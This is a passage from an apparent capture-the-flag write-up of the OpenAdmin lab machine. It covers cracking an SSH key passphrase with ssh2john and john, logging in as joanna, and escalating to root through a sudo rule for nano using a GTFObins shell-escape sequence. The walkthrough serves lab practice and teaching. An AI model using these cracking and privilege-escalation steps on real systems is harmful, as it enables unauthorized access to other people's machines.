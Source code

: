 ```
$ ssh2john.py joanna_key > hash.txt
```

Then we crack it with `john`:


```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is: `bloodninjas`. We log in through SSH and get the user flag:

```
$ ssh -i joanna_key joanna@10.10.10.171
joanna@openadmin:~$ cat user.txt
c9b2****************************
```

##### [4.2] Root escalation

`joanna` is a `sudoer` and can run nano as root:

```
$ sudo -l

(...)
User joanna may run the following commands on openadmin
(ALL) NOPASSWS: /bin/nano /opt/priv
```

Running the following command I could get the key:

```
sudo /bin/nano /opt/priv
```

And [GTFObins](https://gtfobins.github.io/gtfobins/nano/#sudo) has the solution to spawn a shell as root:


```
sudo /bin/nano /opt/priv
Crtl-R Crtl-X
reset; sh 1>&0 2>&0
```

### [5] Conclusion

This machine requires basic enumeration, password/key cracking, usage of public exploits and knowledge of basic privilege escalation techniques.

##### [5.1] Resources

```
https://opennetadmin.com/[2] CrackStation
https://crackstation.net/[3] GTFObins - Nano 
https://gtfobins.github.io/gtfobins/nano/#sudo
```